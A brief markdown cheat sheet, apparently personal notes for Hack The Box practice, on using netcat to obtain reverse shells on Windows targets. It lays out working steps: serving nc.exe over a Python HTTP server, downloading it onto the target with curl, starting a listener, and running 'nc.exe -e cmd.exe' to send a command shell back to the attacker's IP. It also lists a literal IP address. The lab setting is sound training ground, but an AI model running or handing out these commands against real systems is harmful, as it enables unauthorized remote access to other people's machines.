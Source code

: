 # Netcat
﷽
* A tool for obtaining reverse shells on systems.
## How to use:

* Locate the `netcat` executable (it's in my `home` dir)
  * `locate nc.exe`
  

* Set up a python server to send the file to the target (_remember to run this in the same folder as the nc.exe_):
  * `python3 -m http.server`
* Receive the file from the target:
  * `curl http://{target-ip}/nc.exe -OutFile nc.exe`
  * 193.123.185.49
    * Remember, in terms of HTB, the `tun0` IP is the IP that is found under the `utun7` IP with the command `ifconfig`.

* Then, to start the listener use the command (*note that you should use an uncommon port!*):
  * `nc -lvnp 4444`
    * `-l` is for listening
    * `-v` is verbosity
    * `-n` is to not resolve DNS
    * `-p` is to specify a port number.

* After the listener is up (in our case at port `4444`), connect to it from the server:
  * `C:\\Users\Public\\nc.exe -e cmd.exe {your-tun0-ip} 4444`

***And you should have a sweet, sweet `C:\Windows\system32> ` prompt! :)***

## Usage example

